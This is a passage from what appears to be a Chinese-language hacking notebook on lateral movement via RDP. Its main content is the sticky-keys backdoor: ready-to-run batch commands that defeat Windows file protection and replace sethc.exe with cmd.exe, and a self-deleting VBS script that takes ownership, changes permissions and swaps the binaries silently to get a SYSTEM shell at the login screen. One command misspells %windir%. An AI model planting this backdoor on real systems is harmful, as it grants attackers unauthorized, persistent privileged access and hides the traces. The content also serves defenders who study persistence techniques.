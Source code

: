 > 但是只有在管理员账户下才能进行劫持，在system用户下多次实验都未成功





## 横向运动

大多组织允许使用远程桌面访问内部网络，可以利用windows忘记密码解决方式进入网络组织内部，且自己是作为机器用户出现在日志之中。

暴力破解进行RDP登陆是下策，容易被发现

###  RDP后门——粘滞键

Windows由一个内置的`Sticky Keys`功能，在远程桌面登陆前的页面可以调出，且该功能是以SYSTEM权限运行。
“粘滞键”是为同时按下两个或更多个键有困难的人设计的。当快捷方式要求使用诸如 CTRL+ P等的组合键时，“粘滞键”允许用户按下修改键（CTRL、ALT或SHIFT）或 Windows徽标键之后，能保持这些键的活动状态直到按下其他键。打开“辅助功能选项”，在“键盘”选项卡的“粘滞键”项下，选中“使用粘滞键”复选框就可以了。
在Windows 2000/XP/Vista下，按SHIFT键5次，就可以打开粘滞键，实际上运行的是System32下的sethc.exe，而且在登录界面里也可以打开。这就让人联想到如果用cmd.exe覆盖sethc.exe，那么在登录界面按SHIFT键5次，就可以得到一个System权限的 cmdshell了。

由于Windows XP的保护机制，所有关键的系统文件都在System32下的dllcache里有备份。如果系统文件被修改了，Windows会马上将dllcache 里的备份复制过来，所以用cmd.exe覆盖sethc.exe之前，一定要将dllcache里的sethc.exe删除或重命名，否则是不会成功的。覆盖文件的时候，系统会弹出Windows文件保护提示，不用理它，点击“取消”就行了。用命令操作就是：

```
cd %widnir%\system32\dllcache
ren sethc.exe *.ex~
cd %widnir%\system32
copy /y cmd.exe sethc.exe
```

将命令写为VBS脚本，且脚本运行之后会自动删除：

```
On Error Resume Next
Dim obj, success
Set obj = CreateObject("WScript.Shell")
success = obj.run("cmd /c takeown /f %SystemRoot%\system32\sethc.exe&echo y| cacls %SystemRoot%\system32\sethc.exe /G %USERNAME%:F&copy %SystemRoot%\system32\cmd.exe %SystemRoot%\system32\acmd.exe&copy %SystemRoot%\system32\sethc.exe %SystemRoot%\system32\asethc.exe&del %SystemRoot%\system32\sethc.exe&ren %SystemRoot%\system32\acmd.exe sethc.exe", 0, True)
CreateObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptName)
```

![](/img/hack/RDP/1506225054417.png)